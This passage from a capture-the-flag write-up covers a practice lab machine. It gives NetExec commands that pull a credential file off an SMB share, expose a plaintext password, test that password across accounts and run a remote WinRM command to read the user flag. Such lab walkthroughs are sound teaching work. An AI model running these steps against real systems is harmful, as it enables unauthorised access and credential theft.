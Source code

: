 Downloading and inspecting the file locally reveals a plaintext password (Figure 6).

{% code overflow="wrap" %}
```bash
# downloading the file
nxc smb 10.10.10.172 -u sabatchjobs -p sabatchjobs_pass --share users\$ --get-file /mhope/azure.xml ./azure.xml
# inspecting the file
cat azure.xml
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/monte_azure_pass.png" alt=""><figcaption><p>Figure 6: Retrieving a plaintext password from the <code>azure.xml</code> file.</p></figcaption></figure>

We can safely assume that the password belongs to `mhope`, but we will also check for password reuse as well as if `mhope` has WinRM access. If it has, we will also read the `user.txt` flag 🚩 (Figure 7).&#x20;

```bash
# writing the password to a file
echo "4n0therD4y@n0th3r$" > mhope_pass
# checking for password reuse
nxc smb 10.10.10.172 -u usernames -p mhope_pass --continue-on-success
# checking for WinRM access
nxc winrm 10.10.10.172 -u mhope -p mhope_pass
# reading the user flag
nxc winrm 10.10.10.172 -u mhope -p mhope_pass -X 'gc c:\users\mhope\desktop\user.txt'
```

<figure><img src="../../../.gitbook/assets/monte_mhope.png" alt=""><figcaption><p>Figure 7: Checking for password reuse, WinRM access, and reading the user flag.</p></figcaption></figure>